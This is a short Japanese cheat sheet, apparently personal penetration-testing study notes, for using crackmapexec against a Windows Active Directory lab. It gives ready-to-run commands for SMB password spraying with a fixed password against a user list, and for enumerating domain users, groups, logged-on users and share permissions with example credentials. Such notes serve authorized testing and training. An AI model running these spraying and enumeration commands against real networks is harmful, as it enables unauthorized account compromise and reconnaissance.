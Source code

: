 # crackmapexec
WindowsのAD環境に対して、列挙したユーザ名を使ったパスワードスプレーを実行できるツール。

## コマンド集

1. smbのIPを指定して、users.txt内のユーザ名に対し、-pで指定したパスワードのスプレーを行う。ドメインはcorp.comに設定。  
また、--continue-on-successで、有効な認証情報が最初に出た時に実行をストップせずスプレーを実行し続ける。  
ちなみに、出力に**Pwn3d!**が書いてあったら、そのユーザは管理者権限を持っていることになる。
```
crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
```

2. ターゲット上のsmbでアクセスが許可されているふぁいるとふぉるだの一覧を取得する
```
crackmapexec 192.168.50.242 -u john -p "hoge" --shares
```

3. ドメイン内の全てのドメインユーザリストを取得するコマンド。この時、ドメインユーザの情報はDCが持っているので、ターゲットにDCのIPを指定する必要がある。
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users
```

4. ドメイングループの全リストを列挙することも可能。
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups
```

5. DC以外をターゲットにして、その端末に現在ログインしているユーザを確認するコマンド。
```
sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users
```

6. --sharesによって、リモートホストで使用可能な共有フォルダと、各shareフォルダに対するユーザアカウントのアクセスレベルが分かる。smbmapのような機能。
```
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares
```